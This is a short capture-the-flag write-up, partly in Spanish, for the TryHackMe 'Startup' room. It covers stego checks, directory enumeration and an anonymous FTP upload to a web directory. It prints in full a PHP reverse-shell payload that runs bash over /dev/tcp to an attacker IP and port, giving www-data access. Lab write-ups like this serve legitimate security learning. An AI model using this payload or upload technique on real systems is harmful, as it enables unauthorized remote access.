

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/tryhackme/startup/index.html · generator: mkdocs

# Startup

![](../../assets/img/Pasted_image_20251019215446.png)

notice.txt

```text
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

- Posible user -> **maya**

`steghide important.jpg`
no acepta el formato -> Vemos que con `file important.jpg` el archivo es png en realidad, usamos una herramienta para png
`zsteg important.jpg`

![](../../assets/img/Pasted_image_20251019222521.png)

*Uwwwwwwwwwwww*
- Nada interesante parece

Vemos que con gobuster hay un directorio /10.10.227.112/files, donde se suben los archivos por ftp, intentaremos subir una revshell con `put`
- En el directorio normal de ftp no podemos

![](../../assets/img/Pasted_image_20251019230244.png)

- En el directorio /ftp nos deja

![](../../assets/img/Pasted_image_20251019230310.png)

El archivo shell tiene
`<?php exec('bash -c "bash -i >&/dev/tcp/10.8.63.150/4444 0>&1"'); ?>`
**www-data**
